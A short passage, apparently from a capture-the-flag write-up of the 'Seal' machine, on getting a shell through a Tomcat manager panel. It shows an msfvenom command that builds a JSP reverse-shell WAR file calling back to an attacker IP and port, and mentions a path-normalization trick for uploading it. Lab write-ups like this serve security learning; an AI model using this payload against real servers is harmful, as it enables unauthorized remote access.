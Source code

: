 Tomcat panel:

![Untitled](Seal/Untitled%2032.png)

To get the reverse shell just craft a War payload, that is a collection of jar files.

```python
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war
```

Use the path normalization to upload the reverse shell.

![Untitled](Seal/Untitled%2033.png)

